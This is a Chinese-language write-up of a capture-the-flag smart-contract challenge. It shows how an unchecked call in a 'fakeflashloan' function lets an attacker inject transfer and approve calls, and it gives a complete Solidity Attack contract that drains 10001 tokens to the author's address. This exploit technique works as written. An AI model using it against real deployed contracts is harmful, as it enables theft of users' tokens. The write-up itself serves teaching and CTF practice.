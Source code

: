 ```
        solved=true;

    }
}
```
**拿到flag的要求是使isSolved()返回true**
读完源码后，发现题目要我们通过攻击达成`complete()`函数里的两个限制条件:
```
 function complete() public {

        require(balanceOf[msg.sender]>10000);
        require(allowance[address(this)][msg.sender]>10000);
        solved=true;

 }
```
即是让我们利用漏洞从合约成功盗取10000以上的token<br/>
让我们把视线放到`fakeflashloan()`这个奇怪的函数上，可以注意到这个函数并没有很苛刻的“准入条件”，让我们可以很轻松的执行到里面的call方法：
```
function fakeflashloan(uint256 value,address target,bytes memory data) public{
        require(isLoan==false&&value>=0&&value<=1000);
        balanceOf[address(this)]-=value;
        balanceOf[target]+=value;

        address(target).call(data);

        isLoan=true;
        require(balanceOf[target]>=value);
        balanceOf[address(this)]+=value;
        balanceOf[target]-=value;
        isLoan=false;
    }
```
而call后面跟的参数是bytes类型的data,这就给了我们很大的操作空间。此时我至少想到了两种拿到flag的方式，一种是通过call注入调用transfer和approve函数给我自己转账，实现盗币后执行`complete()`方法。另一种方式比较投机取巧，通过call注入调用approve函数，`_to`填合约地址，这样allowance就记录了一个合约自己给自己的一笔token的approve，同样可以绕开complete的两个限制条件拿到flag<br/>
但是我觉得题目的初衷应该是要我们完成盗币攻击，于是将其实现，攻击合约如下：
```
pragma solidity ^0.4.19;

import"./Vuln.sol";

contract Attack{

    Vuln cont;
    
    constructor(address _adr){
        cont = Vuln(_adr);
    }

    function attack() public {
        bytes memory byt;
        bytes memory byt2;
        address adr=0x100200fF289D4dA0634fF36d7f5D96524f7EFf67;//我的账户地址
        byt  =  abi.encodePacked(bytes4(keccak256("transfer(address,uint256)")),bytes32(adr),bytes32(10001));
        byt2 =  abi.encodePacked(bytes4(keccak256("approve(address,uint256)")),bytes32(adr),bytes32(10001));
        cont.fakeflashloan(1000,address(cont),byt);//transfer 10001个token给我
        cont.fakeflashloan(1000,address(cont),byt2);//approve 10001个token的approve给我
    }

}
```